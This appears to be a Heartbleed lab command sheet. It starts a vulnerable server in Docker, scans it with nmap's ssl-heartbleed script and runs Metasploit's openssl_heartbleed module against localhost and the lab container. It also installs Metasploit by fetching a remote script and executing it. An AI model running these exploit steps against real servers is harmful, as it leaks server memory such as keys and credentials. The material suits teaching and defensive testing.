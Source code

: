 # Start web server
docker-compose up -d web-server

# Scan web server using nmap from the local machine
sudo nmap -sV -p 8443 --script=ssl-heartbleed 127.0.0.1


# Scan heartbleed vulnerability from the attacker container
wget https://svn.nmap.org/nmap/scripts/ssl-heartbleed.nse
docker run --rm -it instrumentisto/nmap -sV -p 8443 --script=ssl-heartbleed 127.0.0.1
docker run --rm -it instrumentisto/nmap -sV -p 8443 --script ./ssl-heartbleed 127.0.0.1


# Run Metasploit console in a container
docker run --rm -it metasploitframework/metasploit-framework ./msfconsole

use auxiliary/scanner/ssl/openssl_heartbleed
set VERBOSE true
set RHOSTS web-server
set RPORT 443
exploit


# Install Metasploit on Linux / macOS (AWS Ubuntu)
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && \
  chmod 755 msfinstall && \
  ./msfinstall
# Run Metasploit on Linux / macOS (AWS Ubuntu)
msfconsole
# From there, the program will ask you a couple of questions and will ask for a username and
# password. From there, the program will successfully start and we can get down to business.
# We will input the following to setup our program to target for the Heartbleed bug:
use auxiliary/scanner/ssl/openssl_heartbleed
set VERBOSE true
set RHOSTS 127.0.0.1
set RPORT 8443
exploit








# No longer needed: start the attacker container image
docker compose run attacker bash
# Or
docker-compose run attacker bash

